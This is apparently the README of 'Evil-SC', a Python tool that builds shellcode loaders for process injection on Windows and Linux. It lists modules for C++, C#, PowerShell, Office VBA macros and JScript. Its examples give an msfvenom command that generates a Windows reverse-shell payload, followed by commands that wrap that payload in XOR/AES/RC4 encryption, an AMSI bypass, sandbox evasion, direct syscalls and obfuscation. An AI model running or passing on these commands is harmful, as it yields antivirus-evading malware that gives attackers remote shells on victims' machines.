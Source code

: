 # Evil-SC - Template-based Shellcode Loader

## Introduction
Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for injecting shellcode into a target process, using different methods and encoders.

!! WORK IN PROGRESS !!

## Todo
- Functions name randomization ?
- uuid + DES3 bug 
- Make new Sandbox evasion templates
- Make new methods templates

## Usage
1. Clone the repository:
```bash
git clone https://github.com/your_username/evil-sc.git
cd evil-sc
```

2. Install dependencies
```
sudo apt install mono-complete, mingw-w64
```

3. Run the script
```
$ python evil-sc.py windows -h

    ███████╗██╗   ██╗██╗██╗      ███████╗ ██████╗
    ██╔════╝██║   ██║██║██║      ██╔════╝██╔════╝
    █████╗  ██║   ██║██║██║█████╗███████╗██║
    ██╔══╝  ╚██╗ ██╔╝██║██║╚════╝╚════██║██║
    ███████╗ ╚████╔╝ ██║███████╗ ███████║╚██████╗
    ╚══════╝  ╚═══╝  ╚═╝╚══════╝ ╚══════╝ ╚═════╝
                                                 @v4resk

usage: evil-sc.py [-h] {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils} ...

Template-based Shellcode Loader

positional arguments:
  {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils}
                        Module to be used
    windows_cpp         Native Windows Shellcode Loader (C++)
    windows_cs          Dotnet Windows Shellcode Loader (C#)
    windows_pwsh        Powershell Windows Shellcode Loader
    windows_vba         Microsoft Office Macros Shellcode Loader (VBA)
    windows_js          JScript Windows Shellcode Loader
    linux               Native Linux Shellcode Loader (C++)
    utils               Utility module for shellcodes

options:
  -h, --help            show this help message and exit

```

## Examples

1. Generate a shellcode
```bash
# Generate a shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o /tmp/msfout.bin
```

2. Pack the shellcode (see examples below) ! 
```bash
# Use Venoma C# template, XOR and AES encryption, AMSI Bypass
python evil-sc.py windows_cs -m Venoma msf.raw -em amsi -e aes -e xor

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, GetSyscallStub for direct syscalls, obfuscation using LLVMO
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep --llvmo

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, SysWhispers3 for direct syscalls
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep -sc SysWhispers3

# Use PowerIject Powershell template, Double XOR encryption, AMSI Bypass
python evil-sc.py windows_pwsh -m PowerInject msf.raw -e xor -e xor -em amsi

# Use simple exec C++ template for linux, with xor encryption, obfuscation using LLVMO
python evil-sc.py linux -m SimpleExec msf.raw -e xor -l
```


## Resources

[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()